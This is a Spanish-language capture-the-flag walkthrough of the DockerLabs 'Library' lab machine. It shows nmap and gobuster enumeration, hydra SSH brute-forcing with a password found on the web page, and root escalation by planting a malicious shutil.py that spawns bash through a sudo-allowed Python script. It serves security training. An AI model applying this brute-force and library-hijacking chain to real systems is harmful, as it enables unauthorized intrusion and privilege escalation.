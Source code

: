 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Library".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh library.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.17.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene dos puertos abiertos: el 22 (SSH) y el 80 (HTTP)
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña aun para atacar el puerto 22, vamos a probar poniendo la direccion IP en el navegador.

Sin embargo, aparece la tipica pagina de Apache, por lo que vamos a empezar haciendo un poco de FUZZING WEB con "gobuster":
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,html -t 20
```
Y vemos que nos devuelve la siguiente informacion:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
Si nos fijamos, hay un "/index.php" y un "/index.html" lo cual es curioso, asi que vamos a probar con ambos a ver que nos encontramos.

Con "/index.html" no hay nada interesante, ya que nos deja en la misma pagina que antes, pero con "/index.php", la cosa cambia ya que nos sale una cadena de caracteres:
```
JIFGHDS87GYDFIGD
```
Bien, probaremos entonces con fuerza bruta e HYDRA y/o MEDUSA para ver si podemos obtener el nombre de algun usuario, usando esta cadena de caracteres como "password":
```
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```
Vemos que hay un usuario que se llama "carlos" y cuya contraseña es la que hemos puesto antes: "JIFGHDS87GYDFIGD"
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
[STATUS] 306.00 tries/min, 306 tries in 00:01h, 8295150 to do in 451:49h, 15 active
```
Es momento de probar a entrar por SSH a ver si hay suerte:
```
ssh carlos@172.17.0.2
```
y tras darle que "yes" a las fingerprints e introducir la contraseña, ya estamos dentro:
```
carlos@c6c871fec19b:~$ whoami
carlos

carlos@c6c871fec19b:~$
```
En este momento, nos toca intentar hacer una escalada de privilegios con "sudo -l":
```
carlos@c6c871fec19b:~$ sudo -l

Matching Defaults entries for carlos on c6c871fec19b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User carlos may run the following commands on c6c871fec19b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
    
carlos@c6c871fec19b:~$
```
Bien, vamos a probar a hacer un pequeño "cat" a ese archivo "script.py" a ver que obtenemos:
```
cat /opt/script.py


import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)

```
Aqui podemos observar algo MUY curioso. Si nos fijamos en ese "import shutil", vemos que NO esta con su ruta absoluta.

-Vale, bien... y ¿que quiere decir esto?

-Pues quiere decir que como Python SIEMPRE busca primero en la carpeta donde se encuentra el archivo ".py", pues este ira a comprobar si existe esa libreria primero en la carpeta "/opt/" que es donde se encuentra el "script.py"

-¿Y.... ?

-Y... eso quiere decir que podemos intentar un "Python Library Hijacking".

-Ya... pero, ¿eso que es?

-Pues el metodo de explotación de “Python Library Hijacking”, consiste en suplantar una libreria de Python, que un binario este usando, para inyectar codigo de forma que el atacante escale privilegios y/u obtenga una "shell" en el sistema.

En este caso en concreto, lo que hariamos seria crear nuestro propio archivo "shutil.py", el cual dejaremos dentro de la carpeta "/opt/" y cuyo contenido sea:
```
import os
os.system("bash")
```
Una vez, hecho esto con "nano", por ejemplo, solo nos quedaria lanzar el "script.py" con el comando:
```
sudo python3 /opt/script.py  <== Ponemos SIEMPRE la ruta absoluta
```
Si ahora escrimos "whoami", veremos que hemos pasado de ser el usuario "carlos" a ser directamente el usuario "root":
```
carlos@c6c871fec19b:/opt$ sudo python3 /opt/script.py

root@c6c871fec19b:/opt# whoami
root

root@c6c871fec19b:/opt#
```
Y listo, la maquina estaria terminada.



